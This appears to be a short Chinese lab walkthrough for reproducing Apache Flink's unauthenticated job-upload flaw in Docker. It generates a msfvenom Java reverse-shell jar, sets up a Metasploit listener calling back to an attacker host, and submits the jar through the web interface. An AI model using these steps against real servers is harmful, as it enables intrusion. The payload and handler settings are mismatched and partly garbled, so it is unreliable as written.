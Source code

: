 
# Apache-Flink未授权访问漏洞

环境搭建：

docker pull scxiaotan2/flink3.1.2:weishouquan   #拉取镜像

docker run -it  scxiaotan2/flink3.1.2:weishouquan  /bin/bash       #启动shell

./start.sh     #启动根目录下的服务

netstat -tlnp      #可以看到8081端口启用了

ifconfig      #查看当前IP地址 比如地址为172.17.0.2  可以访问http://172.17.0.2:8081


# 漏洞复现

Kali linux 下运行msf

生成payload

msfvenom -p java/shell_reverse_tcp LHOST=VPS LHOST LPORT=VPS LPORT -f jar >test.jar

监听端口

msfconsole 

>use exploits/multi/handler

>set PAYLOAD java/meterpreter/reverse_tcp

>set LHOST  192.168.0.4  # 执行ifconfig  查看当前ip是多少这里就写多少

>exploit -j

# 上传文件

访问docker 下flink 环境

http://172.17.0.2:8081

点击 Submit New Job --> Add New-->选择刚刚生成的jar包-->上传成功后点击Submit  即可在msf下反弹一个shell
